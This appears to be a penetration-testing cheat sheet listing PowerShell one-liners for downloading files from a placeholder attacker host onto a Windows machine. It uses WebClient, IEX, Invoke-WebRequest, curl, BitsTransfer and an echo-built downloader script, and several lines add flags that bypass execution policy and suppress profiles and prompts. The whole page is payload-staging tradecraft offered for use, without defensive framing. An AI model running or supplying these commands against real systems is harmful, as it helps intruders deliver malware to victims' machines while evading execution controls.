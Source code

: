 USING POWERSHELL -
------------------------------------------------------------------------------------------------------------------ 

**Web Content Download**
    
    $webClient.DownloadFile('http://{LOCAL-IP}:80/demo.txt','\users\public\demo.txt')

**Web Content Download**
    
    powershell.exe -c (new-object System.Net.WebClient).DownloadFile('http://{LOCAL-IP}/demo.txt','\users\public\demo.txt')

**Web Content Download**
    
    powershell.exe IEX(New-Object System.Net.WebClient).downloadFile('http://{LOCAL-IP}:80/demo.txt','\users\public\demo.txt')

**Web Content Download**
    
    powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile "IEX(New-Object System.Net.WebClient).downloadFile('http://{LOCAL-IP}/demo.txt','\users\public\demo.txt')"

**Web Content Download**
    
    powershell.exe Invoke-RestMethod -Uri "http://{LOCAL-IP}/demo.txt" -OutFile "\users\public\demo.txt"

**Web Content Download**
    
    powershell.exe Invoke-webRequest -Uri "http://{LOCAL-IP}/demo.txt" -OutFile "\users\public\demo.txt"

**Powershell Wget**
    
    powershell.exe -c wget "http://{LOCAL-IP}/demo.txt" -outfile "\users\public\demo.txt"

**Powershell Curl**
    
    powershell.exe -c "curl.exe http://{LOCAL-IP}:80/demo.txt \users\public\demo.txt"

**Powershell IEX**

    echo IEX(New-Object System.Net.WebClient).downloadFile('http://{LOCAL-IP}:80/demo.txt','\users\public\demo.txt') | powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile
   
**Powershell Direct URI**
    
    iwr -uri http://{LOCAL-IP}/demo.txt -Outfile demo.txt

**Powershell BitsTransfer**

    powershell.exe -c "Import-Module BitsTransfer; Start-BitsTransfer -Source 'http://{LOCAL-IP}/demo.txt' -Destination '\users\public\demo.txt'"

**Using file**
    
    echo '$storageDir = $pwd' > wget.ps1
    echo '$webclient = New-Object System.Net.WebClient' >> wget.ps1
    echo '$url = "http://{LOCAL-IP}/demo.txt"' >> wget.ps1
    echo '$file = "\users\public\demo.txt"' >> wget.ps1
    echo '$webclient.DownloadFile($url, $file)' >> wget.ps1
